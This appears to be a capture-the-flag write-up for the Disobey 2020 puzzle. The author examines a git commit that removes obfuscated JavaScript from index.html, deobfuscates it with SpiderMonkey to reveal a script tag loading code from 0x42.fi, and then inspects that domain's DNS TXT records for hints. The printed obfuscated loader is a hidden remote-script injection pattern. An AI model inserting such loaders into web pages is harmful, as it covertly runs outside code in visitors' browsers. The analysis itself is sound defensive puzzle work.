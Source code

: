 The first thing I saw was the commit 4517bd04e348c331837fa8833810cbba465618c9. I really wanted to know what the malicious code was so I checked the specific commit.

```
whois@cypher → ~/gits/disobey2020.github.io → ↑ master → git show 4517bd04e348c331837fa8833810cbba465618c9

commit 4517bd04e348c331837fa8833810cbba465618c9
Author: Diso Bey <disobey2020@io.fi>
Date:   Thu May 16 01:00:45 2019 +0300

    Removed malicious code

diff --git a/index.html b/index.html
index 6f95a95..6045303 100755
--- a/index.html
+++ b/index.html
@@ -53,9 +53,6 @@
                          crossorigin="anonymous"></script>
   <script src="https://cdnjs.cloudflare.com/ajax/libs/animejs/2.0.2/anime.min.js"></script>
   <script>
-var _0x4311=['.fi','/ma','l.js','write','<script\x20src=\x22','s://','0x42'];(function(_0x426e03,_0x359476){var _0x17c635=function(_0x5dfa16){while(--_0x5dfa16){_0x426e03['push'](_0x426e03['shift']());}};_0x17c635(++_0x359476);}(_0x4311,0x9f));var _0x5a74=function(_0x2d8f05,_0x4b81bb){_0x2d8f05=_0x2d8f05-0x0;var _0x4d74cb=_0x4311[_0x2d8f05];return _0x4d74cb;};var f1='hT';var f2='tP';var f3=_0x5a74('0x0');var f4=_0x5a74('0x1');var f5=_0x5a74('0x2');var f6=_0x5a74('0x3');var f7=_0x5a74('0x4');document[_0x5a74('0x5')](_0x5a74('0x6')+f1+f2+f3+f4+f5+f6+f7+'\x22><\/script>');
-  </script>
-  <script>
   // Wrap every letter in a span
   $('.ml9 .letters').each(function(){
     $(this).html($(this).text().replace(/([^\x00-\x80]|\w)/g, "<span class='letter'>$&</span>"));
```

Nasty! Index.html has had some obfuscated JavaScript in it. I know lot of people run this kind of stuff on their host's browser but as I do this kind of analysis as my work, I would not recommend doing it. To analyze this JS, I ran it with SpiderMonkey on my Remnux virtual machine. Remnux ships with a tool called SpiderMonkey. SpiderMonkey is a tool for evaling obuscated JS.

```
remnux@remnux:~/disobey$ js -f /usr/share/remnux/objects.js -f mal.js 
<script src="hTtPs://0x42.fi/mal.js"></script>
```

Okay so the obfuscated JS just loads another JS to the website from suspicious domain 0x42.fi. Unfortunately, 0x42.fi resolves to localhost. Let's see other DNS record types as well than just the A record.

```
 whois@cypher → ~/gits/disobey2020.github.io → ↑ master → host 0x42.fi

0x42.fi has address 127.0.0.1

 whois@cypher → ~/gits/disobey2020.github.io → ↑ master → host -t TXT 0x42.fi
0x42.fi descriptive text "if you are doing bruteforcing, or domain / ip recon you are doing it wrong. The glaciers are shrinking fast enough without that."
0x42.fi descriptive text "See first, think later, then test. But always see first. Otherwise you will only see what you were expecting. Most scientists forget that."
0x42.fi descriptive text "ca3-cb8d6ea4479349af8295f8ea0115af57"
0x42.fi descriptive text "History data for this domain is out of scope."
0x42.fi descriptive text "Can't we have nice things?      [in narrator voice]: 'They could not'"
0x42.fi descriptive text "If you didn't know history, you didn't know anything. You were a leaf that didn't know it was part of a tree."

 whois@cypher → ~/gits/disobey2020.github.io → ↑ master → host -t AAAA 0x42.fi
0x42.fi has no AAAA record

```